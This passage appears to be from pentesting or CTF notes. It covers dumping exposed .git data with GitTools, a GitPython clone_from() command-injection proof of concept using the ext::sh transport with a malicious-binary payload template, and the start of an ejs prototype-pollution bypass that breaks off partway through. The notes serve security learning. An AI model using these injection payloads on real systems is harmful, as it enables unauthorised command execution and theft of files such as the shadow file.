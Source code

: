   ![image](https://github.com/user-attachments/assets/38897cad-609e-4c4a-866c-b5f2b7e375f3)

---------------------

### Dumping .git sensitive info

- Use [GitTools](https://github.com/internetwache/GitTools)'s `Extractor/extractor.sh` to dump sensitive info

![image](https://github.com/user-attachments/assets/a4ea7cfd-378f-4f3e-b725-67be8be9ae11)

- Objects spotted

![image](https://github.com/user-attachments/assets/520e4b68-2b84-4569-8058-92bda7c2101b)

----------------------

### Exploiting clone_from() Gitpython function

- Exploiting this vulnerability is possible because the library makes external calls to git without sufficient sanitization of input arguments. This is only relevant when enabling the ext transport protocol.

- POC
  
      from git import Repo
      r = Repo.init('', bare=True)
      r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])

- A good method to exploit it to create a script and run the script with the `ext::sh`.e.g

![image](https://github.com/user-attachments/assets/63fe448c-d9ce-4dc1-8b0b-cfe73041b2f9)

- Shadow file result

![image](https://github.com/user-attachments/assets/242797a1-e1fe-4bb0-bd93-c90a0c48455f)

- Payload-:```ext::bash -c [path_to your_malicious_binary]% ls2```

------------------------

### Reference:

- [Snyk](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

-------------------------

### Node's ejs Prototype Pollution CVE

The poc below bypasses the fix for `CVE-2022-29078` in `^3.1.7`

- Example of vulnerable `index.js`, res.render in this case is controllable

      const express = require('express')
      const app = express()
      const port = 3000
      